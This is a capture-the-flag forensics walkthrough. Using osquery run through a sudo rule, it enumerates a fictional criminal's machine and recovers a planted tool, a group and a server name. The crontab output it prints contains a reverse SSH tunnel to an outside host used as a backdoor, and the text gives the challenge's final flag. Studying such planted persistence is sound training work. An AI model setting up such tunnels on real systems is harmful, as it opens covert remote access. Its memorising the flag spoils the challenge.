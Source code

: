 ## Description

In the latest case of Sherlock, a breach at the London Tower was executed with just a few lines of code. The perpetrator, the famous criminal consultant Moriarty, has been arrested. However, despite hours of interrogation, Moriarty has remained tight-lipped about both the software he used and the group he represents. As a result, our IT experts have turned their attention to his laptop. But Sherlock has warned us that Moriarty may have an anti-forensics laptop that adds an additional layer of complexity. By taking a look at his machine, Can you figure out the tool he used, the group he's affiliated with and the server used for coordination?
Flag format: shellmates{ToolName_GroupName_ServerName}
Username: ctf
Password: ctf

## Solution

we were given this command to connect to ssh :

```bash
ssh ctf@interrogation.hackini24.shellmates.club -o ProxyCommand="openssl s_client -quiet -connect interrogation.hackini24.shellmates.club:443 -servername interrogation.hackini24.shellmates.club"
```

let's connect :

```
└─$ ssh ctf@interrogation.hackini24.shellmates.club -o ProxyCommand="openssl s_client -quiet -connect interrogation.hackini24.shellmates.club:443 -servername interrogation.hackini24.shellmates.club"
depth=2 C = US, O = Internet Security Research Group, CN = ISRG Root X1
verify return:1
depth=1 C = US, O = Let's Encrypt, CN = R3
verify return:1
depth=0 CN = *.hackini24.shellmates.club
verify return:1
ctf@interrogation.hackini24.shellmates.club's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.120+ x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sun Dec 17 18:32:20 2023 from 10.84.0.1
-bash: /usr/bin/groups: Permission denied
-bash: /usr/bin/locale-check: Permission denied
ctf@interrogation-9bd74c6b7-vdrcm:~$
```

so the flag name is in this form :

```
shellmates{ToolName_GroupName_ServerName}
```

we notice that we cannot run the majority of commands, we got a restricted shell.

the first part of the shell is a `ToolName`, we can check famous places where tools and binaries are placed, let's check the `PATH` env variable :

```
ctf@interrogation-9bd74c6b7-vdrcm:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

let's list those directories one by one, may be the tool will stand out.

but the `ls` command is restricted, we can list with `echo`, using `echo /DIR_PATH/*`, we can list the dir content, so we try those dirs in PATH one by one, and we notice an unusual tool in `/usr/bin/` :

```
ctf@interrogation-9bd74c6b7-vdrcm:~$ echo /usr/bin/*
/usr/bin/Cr1m3m4st3rm1ndK1t
...
```

that's gotta be the tool name.

the second part of the flag is the group name.

let's run `sudo -l` :

```
ctf@interrogation-9bd74c6b7-vdrcm:~$ sudo -l
[sudo] password for ctf:
Matching Defaults entries for ctf on interrogation-9bd74c6b7-vdrcm:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctf may run the following commands on interrogation-9bd74c6b7-vdrcm:
    (Moriarty) /usr/bin/osqueryi
```

we can run `/usr/bin/osqueryi` as the user `Moriarty`, let's do that :

```
ctf@interrogation-9bd74c6b7-vdrcm:~$ sudo -u Moriarty /usr/bin/osqueryi
Thrift: Sun Dec 17 18:47:37 2023 TSocket::open() connect() <Path: /home/Moriarty/.osquery/shell.em>: Connection refused
Using a virtual database. Need help, type '.help'
osquery>
```

the commands of osquery are similar to sqlite3, we can check the available tables with `.tables` :

```
osquery> .tables
  => acpi_tables
  => apparmor_events
  => apparmor_profiles
  => apt_sources
  => arp_cache
  => atom_packages
...
  => yara
  => yara_events
  => ycloud_instance_metadata
  => yum_sources
```

there is a table called `groups`, let's get the content of that table :

```
osquery> .all groups
+-------+------------+------------------+
| gid   | gid_signed | groupname        |
+-------+------------+------------------+
| 0     | 0          | root             |
| 1     | 1          | daemon           |
| 2     | 2          | bin              |
| 3     | 3          | sys              |
| 4     | 4          | adm              |
| 5     | 5          | tty              |
| 6     | 6          | disk             |
| 7     | 7          | lp               |
| 8     | 8          | mail             |
| 9     | 9          | news             |
| 10    | 10         | uucp             |
| 12    | 12         | man              |
| 13    | 13         | proxy            |
| 15    | 15         | kmem             |
| 20    | 20         | dialout          |
| 21    | 21         | fax              |
| 22    | 22         | voice            |
| 24    | 24         | cdrom            |
| 25    | 25         | floppy           |
| 26    | 26         | tape             |
| 27    | 27         | sudo             |
| 29    | 29         | audio            |
| 30    | 30         | dip              |
| 33    | 33         | www-data         |
| 34    | 34         | backup           |
| 37    | 37         | operator         |
| 38    | 38         | list             |
| 39    | 39         | irc              |
| 40    | 40         | src              |
| 41    | 41         | gnats            |
| 42    | 42         | shadow           |
| 43    | 43         | utmp             |
| 44    | 44         | video            |
| 45    | 45         | sasl             |
| 46    | 46         | plugdev          |
| 50    | 50         | staff            |
| 60    | 60         | games            |
| 100   | 100        | users            |
| 65534 | 65534      | nogroup          |
| 101   | 101        | systemd-journal  |
| 102   | 102        | systemd-network  |
| 103   | 103        | systemd-resolve  |
| 104   | 104        | crontab          |
| 105   | 105        | messagebus       |
| 106   | 106        | systemd-timesync |
| 107   | 107        | _ssh             |
| 999   | 999        | Moriarty         |
| 1010  | 1010       | APT221           |
| 998   | 998        | ctf              |
+-------+------------+------------------+
```

`APT221` looks interesting, that's gotta be the group name.

the last part of the flag is the server name, if we check the `crontab` table, we get this :

```
osquery> .all crontab
+-------+--------+------+--------------+-------+-------------+---------------------------------------------------------------------------------------------------------+-------------------------+
| event | minute | hour | day_of_month | month | day_of_week | command                                                                                                 | path                    |
+-------+--------+------+--------------+-------+-------------+---------------------------------------------------------------------------------------------------------+-------------------------+
|       | 17     | *    | *            | *     | *           | root cd / && run-parts --report /etc/cron.hourly                                                        | /etc/crontab            |
|       | 25     | 6    | *            | *     | *           | root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )                        | /etc/crontab            |
|       | 47     | 6    | *            | *     | 7           | root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )                       | /etc/crontab            |
|       | 52     | 6    | 1            | *     | *           | root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )                      | /etc/crontab            |
|       | 0      | 0    | *            | *     | *           | ssh -R *:1337:localhost:1337 Moriarty@Th3Sh3rl0ck3d                                                     | /etc/crontab            |
|       | 30     | 3    | *            | *     | 0           | root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron | /etc/cron.d/e2scrub_all |
|       | 10     | 3    | *            | *     | *           | root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r                              | /etc/cron.d/e2scrub_all |
+-------+--------+------+--------------+-------+-------------+---------------------------------------------------------------------------------------------------------+-------------------------+
```

we notice this : `Moriarty@Th3Sh3rl0ck3d`, we found the server name `Th3Sh3rl0ck3d`.

combining all those, we can get the flag.

- flag: `shellmates{Cr1m3m4st3rm1ndK1t_APT221_Th3Sh3rl0ck3d}`
